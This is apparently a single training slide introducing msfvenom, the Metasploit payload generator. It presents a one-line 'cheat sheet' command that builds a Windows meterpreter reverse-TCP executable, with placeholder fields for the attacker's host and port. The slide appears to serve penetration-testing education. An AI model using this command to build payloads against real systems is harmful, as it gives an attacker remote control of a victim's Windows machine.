

# msfvenom
msfvenom is a Metasploit standalone payload generator
Msfvenom Cheat Sheet
Creates a simple TCP Payload for Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST={DNS / IP / VPS IP} LPORT={PORT / Forwarded PORT} -f exe example.exe

25